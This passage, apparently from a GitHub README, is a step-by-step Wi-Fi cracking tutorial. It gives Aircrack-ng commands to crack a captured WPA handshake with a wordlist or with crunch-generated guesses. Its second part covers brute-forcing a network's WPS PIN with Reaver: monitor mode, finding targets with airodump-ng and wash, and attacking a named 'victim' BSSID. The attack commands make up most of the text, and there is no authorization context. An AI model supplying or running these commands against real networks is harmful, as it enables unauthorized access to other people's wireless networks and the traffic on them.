 `password.lst` : file conatining the list of passwords as provided in source code of Aircrack-NG

The command is of type:
```sh
aircrack-ng -w password.lst -b <Victim BSSID> psk*.cap
```

Without Password List we can use Password generattor like `crunch`

```sh
crunch 8 8 abcdefghijklmnopqrstuvwxyz1234567890 | aircrack-ng -b f4:f2:6d:d0:ac:9a psk-04.cap -w- 
```

#### Reference 

* http://www.aircrack-ng.org/~~V/doku.php?id=cracking_wpa
* https://www.aircrack-ng.org/doku.php?id=injection_test
* https://www.youtube.com/watch?v=HMgDSI2hKPg


### PART TWO Reaver + Aircrack-Ng 

	Brute Force Cracking the WPS Pin

#### Installation 

```sh
sudo apt-get install libpcap-dev sqlite3 libsqlite3-dev
sudo apt install reaver
```

#### Checking/Monitoring the networks

First get intoMonitoring mode by :
  ```sh
  sudo airmon-ng start wlxe8de27059912
  ``` 

The BSSID of the Victim can be obtained by :

```sh
sudo airodump-ng wlan0mon
``` 

OR Another tool by Reaver is `wash`, here's how to use it 

```sh
sudo wash -i wlan0mon
```

Note : `airmon-ng` changed the name of the interface from `wlxe8de27059912` to `wlan0mon` when it restarted it in monitoring mode.

#### Targetting the Victim Network

```sh
sudo reaver -i wlan0mon -b F4:F2:6D:D0:AC:9A -v
```

This command is of form
```sh
reaver -i <Interface in Monitor Mode> -b <Victim's BSSID> -v
```
